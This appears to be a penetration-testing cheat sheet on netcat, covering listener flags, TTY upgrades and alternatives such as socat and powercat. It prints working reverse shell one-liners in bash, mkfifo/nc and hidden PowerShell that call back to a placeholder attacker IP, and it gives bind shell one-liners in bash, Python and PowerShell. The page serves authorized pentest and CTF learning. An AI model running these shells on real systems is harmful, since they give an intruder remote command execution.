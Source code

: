 # Netcat

## What is it

Netcat, ncat, or nc, is an excellent network utility for interacting with TCP/UDP ports. It can be used for many things during a pentest. Its primary usage is for connecting to shells.  
In addition to that, netcat can be used to connect to any listening port and interact with the service running on that port.  
For example, SSH is programmed to handle connections over port 22 to send all data and keys.  
We can connect to TCP port 22 with netcat `netcat 10.10.10.10 22`

*Source HTB Academy*

## Reverse shell

- `nc -lvnp 1234` set a listener
  - `-l` Listen mode, to wait for a connection to connect to us.
  - `-v` Verbose mode, so that we know when we receive a connection.
  - `-n` Disable DNS resolution and only connect from/to IPs, to speed up the connection.
  - `-p 1234` Port number netcat is listening on, and the reverse connection should be sent to.

> Note we can use rlwrap in front of it this will allow us to use the arrows like in an usual shell

- From our target
  - `bash -c 'bash -i >& /dev/tcp/attack-machine-ip/1234 0>&1'`
  - or `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc attack-machine-ip 1234 >/tmp/f`
  - in powershell `powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("attacking-machine-ip",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()`

## Bind shell

- Start a bind shell
  - `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f`
  - or `python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'`
  - in powershell `powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();`

- Connect to your bind shell with netcat
  - `nc target-ip 1234`

## Upgrade TTY

- `python -c 'import pty; pty.spawn("/bin/bash")'`
- `ctrl+z` background shell and get back on local terminal
- `stty raw -echo`
- `fg`
- `Enter` 2 times to get back shell or `reset` and enter.
- In another tab `echo $TERM` and `stty size`
- Back to netcat shell
  - `export TERM=xterm-256color` or the value of the $term we got previously
  - `stty rows 67 columns 318` put the values you had from ssty size

## Transfert files with netcat

- See here my documentation on [how to transfert files with netcat](https://csbygb.gitbook.io/pentips/post-exploitation/files-transfert#netcat)

## Netcat alternatives

### For Windows

- [Powercat](https://github.com/besimorhino/powercat)

### Socat

- [Socat](https://linux.die.net/man/1/socat)
- Can be used to upgrade shell to [fully interactive TTY shell](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/#method-2-using-socat)
- [Stand alone binary](https://github.com/andrew-d/static-binaries)